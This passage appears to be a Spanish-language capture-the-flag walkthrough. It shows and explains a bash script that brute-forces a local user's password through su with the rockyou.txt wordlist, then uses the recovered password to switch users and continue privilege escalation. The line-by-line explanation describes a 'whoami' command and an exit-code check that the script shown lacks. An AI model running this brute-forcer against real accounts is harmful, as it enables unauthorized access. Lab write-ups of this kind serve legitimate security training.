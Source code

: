 ~~~ bash
user=$1 # seller
dict=$2 # rockyou.txt

while IFS= read -r password; do echo "user: $user, pass:$password"; echo "$password" | su -c '' "$user" 2>/dev/null
done < $dict
~~~

- `user=$1`: Asignamos el primer argumento que enviamos cuando ejecutamos el script a la variable `user`
- `dict=$2`: Asignamos el valor del segundo argumento a la variable `dict`
- `while IFS= read -r password`: Lee línea por línea un archivo, en este caso la línea la llamamos `password`
- `echo "seller, pass:$password" `: Mostramos la contraseña que se está usando para ejecutar el comando como el usuario `seller`
- `echo "$password" | su -c 'whoami' "$user" 2>/dev/null` Intentamos autenticar al usuario con la variable `password` que estamos iterando en cada línea del `rockyou.txt`, si esto es exitoso, ejecutamos el comando `whoami`
- `if [ $? -eq 0 ]`: Evaluamos la salida del comando anterior, si es `0`, mostramos la contraseña correcta

![Pasted image 20241016170504](https://github.com/user-attachments/assets/1c96a37a-0d74-4da1-bc25-af7febc7840c)

Ejecutaríamos el script de la siguiente forma

~~~ bash
bash brutesu.sh seller rockyou.txt # Suponiendo que tenemos el rockyou.txt en la misma carpeta
~~~

![Pasted image 20241016170346](https://github.com/user-attachments/assets/dfb9b319-b47a-451a-86c2-92f3b933c1f9)

El script encontró una contraseña para el usuario `seller`, que es este caso es `qwerty`

~~~ bash
echo 'qwerty' | su -c '' 'seller' 2>/dev/null && echo 'Login success'
~~~

Si ejecutamos este comando ocurre lo siguiente

- Aplicamos el comando `su` a la contraseña que imprimimos anteriormente
- El comando resulta exitoso, por lo que el código que nos retorna es `0`, esto quiere decir que el comando se ejecutó sin errores. Podemos ver este código si ejecutamos `echo $?` justo después de ejecutar el comando anterior
- Usamos el operador `&&` para decirle a `bash` que ejecute el comando que ingresaremos después del operador **sólo si el código fue 0 en el comando anterior**

![Pasted image 20241016170925](https://github.com/user-attachments/assets/d56dbe94-fce9-4166-b2f3-aecb4217af23)

Ahora como ya tenemos la contraseña, podemos migrar al usuario `seller` para continuar con nuestra escalada

![Pasted image 20241016171834](https://github.com/user-attachments/assets/6b7fa700-6396-4c7a-bf30-1d4f1d9715ed)

Veamos los permisos `sudo`que tiene este usuario
